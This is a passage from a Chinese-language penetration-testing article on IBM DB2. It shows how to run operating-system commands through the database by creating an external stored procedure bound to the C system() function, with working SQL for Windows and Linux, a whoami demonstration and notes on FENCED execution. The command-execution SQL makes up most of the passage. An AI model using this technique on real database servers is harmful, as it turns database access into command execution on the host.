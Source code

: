 ![pic44](http://drops.javaweb.org/uploads/images/107c9d928deaeb23ce28056793f7b7d4cdd31689.jpg)

![pic45](http://drops.javaweb.org/uploads/images/f7ce00e187abfda0c831f7674ee304ea6b459325.jpg)

注：  
通过EXPORT向文件写入自定义字符串内容时SELECT的表中必须至少有一条记录否则写入内容为空

0x05 利用DB2执行操作系统命令
=====

可利用DB2存储过程执行操作系统命令。远程连接数据库的用户需要具有创建存储过程的权限，连接数据库后创建一个可以执行操作系统命令的存储过程并调用。

创建此种存储过程并调用的语法如下：

Windows：

```
CREATE PROCEDURE db2_cmd_exec (IN cmd varchar(200))
EXTERNAL NAME 'c:\windows\system32\msvcrt!system' 
LANGUAGE C 
DETERMINISTIC 
PARAMETER STYLE DB2SQL

CALL db2_cmd_exec ('whoami /all > C:\whoami.log')

```

Linux：

```
CREATE PROCEDURE db2_cmd_exec (IN cmd varchar(200))
EXTERNAL NAME '/usr/lib/libstdc++.so.6!system' 
LANGUAGE C 
DETERMINISTIC 
PARAMETER STYLE DB2SQL

call db2_cmd_exec ('whoami > /tmp/whoami.log')

```

运行结果：

![pic46](http://drops.javaweb.org/uploads/images/afbd4754cf2fbe3fdab12b28835a8ebac44efc90.jpg)

![pic47](http://drops.javaweb.org/uploads/images/4189e81c077b3cce381ffd87a1dc35888bbe2b90.jpg)

![pic48](http://drops.javaweb.org/uploads/images/5aff72f44cbfb89c07b47652b9fd004693560655.jpg)

![pic49](http://drops.javaweb.org/uploads/images/380a09c48bc632a2078bc3a48898788589da1d0d.jpg)

注：

创建的存储过程默认为FENCED（受保护的），例如对于Linux下DB2的，使用db2inst1用户连接数据库创建并运行上述存储，DB2服务器端实际是以db2fenc1用户运行该存储过程的。

FENCED存储过程单独启用一个新的地址空间，而UNFENCED存储过程和调用它的进程使用用一个地址空间，一般来说FENCED存储过程比较安全。
